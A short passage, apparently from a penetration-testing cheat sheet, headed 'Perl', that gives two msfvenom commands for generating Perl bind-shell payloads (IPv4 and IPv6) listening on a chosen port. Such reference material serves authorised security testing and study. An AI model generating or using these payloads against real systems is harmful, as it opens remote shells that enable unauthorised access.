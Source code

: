 # Perl

## 01 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/bind_perl lport=<PORT>

$ msfvenom -p cmd/unix/bind_perl_ipv6 lport=<PORT>
```